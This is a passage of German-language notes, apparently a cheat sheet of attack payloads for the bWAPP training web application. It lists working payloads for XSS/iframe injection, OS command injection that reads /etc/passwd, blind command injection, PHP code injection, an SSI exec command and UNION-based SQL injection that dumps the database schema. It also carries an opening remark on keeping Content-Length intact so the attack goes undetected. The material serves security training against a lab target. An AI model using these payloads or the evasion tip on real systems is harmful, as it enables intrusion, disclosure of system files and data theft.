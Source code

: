 ! ! ! Die content länge(Content-Length) sollte beim manipulieren beachtet werden. Wird diese unter- oder überschritten könnte es dazu führen dass der Angriff erkannt wird und der POST nicht erfolgreich abgesetzt werden kann.

---
##### iFrame Injection
~~~html
ParamUrl=robots.txt" onload="alert(1)
ParamHeight="></iframe><script>alert(1);</script>
~~~

---
##### LDAP Injection (Search)
---
##### Mail Header Injection (SMTP)
---
##### OS Command Injection
~~~
localhost:8083; cat /etc/passwd
localhost:8083 & cat /etc/passwd
localhost:8083 | cat /etc/passwd
~~~

---
##### OS Command Injection - Blind
~~~
localhost:8083 | sleep 10
~~~
---
##### PHP Code Injection
~~~php
/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
~~~

---
##### Server-Side Includes (SSI) Injection
~~~htm
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
~~~

---
##### SQL Injection (GET/Search)
~~~SQL
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--
~~~

---

##### SQL Injection (GET/Select)
~~~SQL
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
~~~

---